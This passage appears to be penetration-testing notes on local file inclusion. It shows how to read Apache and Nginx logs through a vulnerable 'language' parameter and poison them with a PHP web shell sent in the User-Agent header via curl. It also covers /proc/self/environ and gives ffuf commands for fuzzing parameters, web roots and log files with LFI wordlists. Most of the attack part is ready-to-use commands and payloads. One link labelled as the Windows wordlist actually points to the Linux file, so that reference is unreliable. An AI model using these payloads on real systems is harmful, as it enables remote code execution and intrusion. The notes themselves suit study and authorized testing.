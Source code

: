 | Software       | Installed Location     |
| -------------- | ---------------------- |
| Apache Linux   | `/var/log/apache2`     |
| Apache Windows | `C:\xampp\apache\logs` |
| Nginx Linux          | `/var/log/nginx`       |
| Nginx Windows    | `C:\nginx\log`         ||

1. Read the log
```url 
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```
This may take a while as logs are often big
2. Edit the User-Agent with a php shell
Curl:
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```
This can be done in burp  as well

This can also be done on other service logs such as:
- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`
First attempt to read the log and then try and poison them
##### Tip
The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.

## Automation 
### LFI Scanning
#### Fuzzing Parameters
```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```
[LFI wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
#### Fuzzing Server Files
```shell
 ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```
#### Fuzzing Server Logs/Configurations
```shell
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```
[Word list for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
[Word list for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
